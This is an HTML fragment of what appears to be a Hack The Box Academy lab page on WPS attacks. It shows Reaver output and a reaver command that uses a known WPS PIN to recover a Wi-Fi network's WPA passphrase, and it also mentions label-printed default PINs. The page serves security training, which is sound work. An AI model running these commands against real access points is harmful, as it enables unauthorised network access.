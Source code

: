 Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner &lt;<a class="__cf_email__" data-cfemail="33505b5655555d5641734752505d5647405c5f1d505c5e" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;

[+] Waiting for beacon from 5A:1A:59:B7:E7:97
[+] Received beacon from 5A:1A:59:B7:E7:97
[!] Found packet with bad FCS, skipping...
[+] Associated with 5A:1A:59:B7:E7:97 (ESSID: Teddy)
[+] WPS PIN: ' '
[+] WPA PSK: '&lt;SNIP&gt;'
[+] AP SSID: 'Teddy'
</code></pre>
<hr/>
<h3>Retrieving WPA-PSK using Reaver with a Known PIN</h3>
<p>If one of our brute forcing attempts succeeds, we can use the following command to verify the captured PIN. In this command, <code>-p</code> specifies the PIN, and <code>-b</code> specifies the BSSID of the target Wi-Fi network:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo reaver -i mon0 -b 60:38:E0:2A:4F:21 -p 88766197

&lt;snip&gt;
[+] Pin Cracked in 5 seconds
[+] WPS PIN: '88766197'
[+] WPS PSK: 'WPS-Attacks'
[+] AP SSID: 'HTB-Wireless'
</code></pre>
<p>Alternatively, if the access point has a label with the PIN physically printed on the backside of the router, we can use this information to retrieve the WPA-PSK for the WiFi network. This method leverages the default PIN provided by the manufacturer to potentially gain access to the network. For the technique of using the PIN printed on the label to retrieve the WPA-PSK, the access point (AP) must be in label mode.</p>
<hr/>
<div class="alert alert-primary fade show" role="alert">
<i class="mdi mdi-information-outline mr-2"></i> It is recommended to enable monitor mode using iw to utilize reaver. 
</div>
<br/>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">
<option data-content="&lt;div class='d-flex justify-content-between align-items-center'&gt; &lt;div class='server-title'&gt;US Academy 6 &lt;/div&gt; &lt;div class='d-flex align-items-center'&gt; &lt;span class='recommended'&gt; &lt;img src='/images/sparkles-solid.svg'/&gt;Recommended&lt;/span&gt;  &lt;div class='d-flex align-items-center justify-content-center mr-2 load load-warning '&gt;medium Load  &lt;/div&gt;  &lt;/div&gt;&lt;/div&gt;" data-level="30" value="17">US Academy 6</option>